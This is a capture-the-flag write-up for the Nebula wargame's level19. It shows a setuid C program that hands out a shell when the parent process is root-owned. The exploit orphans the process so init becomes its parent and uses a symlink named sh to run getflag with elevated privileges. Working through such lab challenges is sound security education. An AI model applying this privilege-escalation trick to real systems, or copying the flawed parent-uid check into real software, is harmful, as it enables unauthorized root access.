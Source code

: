 ## Challenge
There is a flaw in the below program in how it operates.

## Solution
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```
Program flow:
* construct path to parent process's directory in `/proc`
* retrieve directory's `stat` structure
* check if owner uid equals to `0` (root)
  * execute `/bin/sh` with given arguments

Ideas for exploitation:
* schedule a `cron` job to run the process (`cron` is a root owned daemon)
  * `cron` executes commands using a user owned shell, thus the parent of our process will not be root `cron`.
* kill the parent process, cause child to move to a new parent - root `init` process
  * race condition, parent should be killed before child executes critical code parts

### Init Parent Process
I found that executing `sh -c 'COMMAND &'` will cause the wanted effect.
```console
level19@nebula:/home/flag19$ sh -c './flag19 -c "echo hello world"&'
level19@nebula:/home/flag19$ hello world
```

### Running as flag19
Seems to happen because `bash` does not execute shell scripts as setuid.
```console
level19@nebula:~$ ln -s -T /home/flag19/flag19 sh
```
```console
level19@nebula:~$ /bin/sh -c "./sh -c \"getflag\" &"
level19@nebula:~$ You have successfully executed getflag on a target account
```

